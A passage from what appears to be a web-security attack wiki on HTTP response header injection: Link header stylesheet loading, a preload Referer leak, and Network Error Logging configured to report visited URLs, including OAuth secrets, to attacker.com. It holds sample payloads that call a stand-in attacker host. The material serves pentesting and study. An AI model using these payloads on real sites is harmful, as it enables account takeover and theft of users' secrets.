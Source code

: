 The following table shows which rel types are recognized. Note that not all of them actually do something, or work in the _header_ instead of a `<link>` tag:&#x20;

{% embed url="https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Attributes/rel" %}
List of all `rel=` attributes and their meaning
{% endembed %}

#### [`rel="stylesheet"`](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Attributes/rel#stylesheet)

This header adds the link URL as a stylesheet to the returned page, allowing [css-injection.md](css-injection.md "mention"). The syntax is as follows:

```http
Link: <https://attacker.com>;rel=stylesheet
```

Only Firefox understands stylesheets through a header, it will be ignored in Chrome.\
[I found this once in the real world](https://bsky.app/profile/jorianwoltjer.com/post/3lhwnargkrc2m) in a partial `Link:` header injection that reflected the URL, to style the 404 page arbitrarily. It also shows that the first `rel=` attribute takes priority.

#### [`rel="preload"`](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Attributes/rel#preload) with `referrerpolicy="unsafe-url"`

Due to what's arguably a chrome bug, injecting a header in a subresource request, even a cross-site one, you can leak the current URL in the `Referer:`. Check out [#link-response-header-with-preload](cross-site-scripting-xss/html-injection.md#link-response-header-with-preload "mention").

### NEL (Network Error Logging)

[Network Error Logging](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/Network_Error_Logging) is a part of the [Reporting API](https://developer.mozilla.org/en-US/docs/Web/API/Reporting_API), responsible for sending reports about certain things happening in your browser. These reports can be sent externally, for example to a server you control. One of the most useful for attackers is NEL which will **leak all URLs that get visited**. Using the `success_fraction` parameter it's also possible to leak successful URLs. `include_subdomains` allows leaking URLs upon DNS failures of domains under the one it was set on.

{% hint style="success" %}
**Tip**: a common pattern in _OAuth_ is sending a secret code through query parameters, and after planting a "backdoor" with this technique, you'll get these leaked URLs and can achieve ATO.
{% endhint %}

This is all configured using response headers, and once registered, will keep being active for quite a while (not only a single request). First, you need to define an endpoint to report to:

{% code title="Report-To:" %}
```json
{
  "group": "leak",
  "max_age": 600,
  "include_subdomains": true,
  "endpoints": [
    {
      "url": "https://attacker.com/report"
    }
  ]
}
```
{% endcode %}
